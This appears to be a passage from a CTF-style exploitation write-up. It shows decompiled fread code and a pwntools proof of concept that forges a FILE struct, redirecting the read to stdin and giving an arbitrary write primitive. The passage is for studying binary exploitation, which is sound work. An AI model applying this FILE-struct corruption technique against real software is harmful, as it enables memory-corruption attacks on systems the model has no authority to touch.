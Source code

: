 ### Getting arb write:

the only way we can get arb write is if fread writes into the FILE struct buf, and that only happens in this part of the function:

```c

  v9 = count * (unsigned __int128)stride;
  v11 = v9;
  if ( end != beg )
  {
    na = v11;
    buf = memmove(buf, &f->buf[beg], v13);
    fd = f->fd;
    v11 = na;
  }
  iov[0].iov_base = (char *)buf + v13;
  v15 = v11 - v13;
  iov[0].iov_len = v11 - v13;
  if ( f->bufmode == 2 || (size = f->size, v11 >= size) )
  {
    size = 0LL;
    v17 = 0LL;
  }
  else
  {
    v17 = f->buf;
    if ( (unsigned int)size > 0xC )
      size = (unsigned int)(size - 12);
  }
  iov[1].iov_base = v17;
  iov[1].iov_len = size;
  v18 = 2;
  v19 = iov;
  while ( 2 )
  {
    v35 = v15;
    v36 = v18;
    n = (size_t)v19;
    v20 = readv(fd, v19, v18);
```

we reach this part of the fread functions when f→buf does not have enough data to fulfill the the request of fread, so reads what’s left in f→buf and calls readv to read more data from the file into the user buffer, and in the way it also read’s in f->buf `f->size-0xc` bytes, we can use this in addition to changing the f->fd to 0 (stdin), so we can get arb write from stdin, here is a simple pwntools poc that shows how it’s done:

```python
def get_write(addr, data):
    sz = 0x1001 // size needs to be strictly bigger than what the user wants
    beg = 0x0
    end = 0x0
    payload = p64(0x0000024200010100)+p64(0x0000000000000000)+p64(0x0000000000000000)\
    +p32(sz)+p32(beg)+p32(end)+p32(0x0)+p64(addr)+p64(0x0)+p64(0x2)+p64(0x0)*3\
    +p64(0x000000000042f338)+ p64(0x000000000042f3d8)+p64(0x0000000000000000)

    write_to_FILE(payload)

    p.sendlineafter(b'>', b'1') // call fread
    // after this it will read from stdin
    pay = b'a'*(0x1000) // send 0x1000 bytes for the user buffer
    pay += data  // the rest will be read into f->buf
    pay = pay + b'c'*(0x1000+4085-len(pay)) // readv will continue reading until it gets all the bytes it requests, so we add this dummy data
```